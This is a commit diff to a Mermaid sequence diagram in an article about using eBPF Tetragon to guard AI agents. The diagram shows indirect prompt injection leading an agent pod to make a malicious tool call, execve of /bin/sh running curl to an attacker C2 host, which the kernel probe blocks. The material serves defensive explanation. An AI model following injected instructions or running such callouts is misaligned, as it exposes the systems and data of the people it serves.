

Before and after one commit to vesviet/vesviet: the diagram in content/radar/2026-08/radar-2026-08-29-ebpf-tetragon-ai-agent-security.md, drawn with Mermaid (neutral theme). The commit also changed other lines of this file and 2 other files, not shown here.

First line of the commit message:
feat(radar): upgrade August 2026 radar editions with deep architecture specs

````diff
--- a/content/radar/2026-08/radar-2026-08-29-ebpf-tetragon-ai-agent-security.md
+++ b/content/radar/2026-08/radar-2026-08-29-ebpf-tetragon-ai-agent-security.md
@@ -47,17 +50,17 @@
 ```mermaid
 sequenceDiagram
     autonumber
     actor Attacker as Malicious Input (Indirect Prompt Injection)
     participant Agent as Compromised AI Agent Pod
     participant Kernel as Linux Kernel (eBPF Tetragon Probe)
     participant C2 as Attacker C2 Server
 
     Attacker->>Agent: Injects malicious prompt payload
     Note over Agent: LLM generates malicious tool call
     Agent->>Kernel: Syscall: execve("/bin/sh", ["curl", "c2.com"])
     Note over Kernel: Tetragon eBPF Hook intercepts syscall
     Kernel->>Kernel: Evaluates TracingPolicy (Unauthorized Binary)
     Kernel--xAgent: Kernel overrides Return & Sends SIGKILL (15µs)
-    Note over Kernel: Emits Security Audit Event to SIEM
-    Kernel--xC2: Connection Blocked (Zero bytes transmitted)
+    Note over Agent: Process TERMINATED immediately!
+    Agent--xC2: ZERO network packets sent to C2!
 ```
````
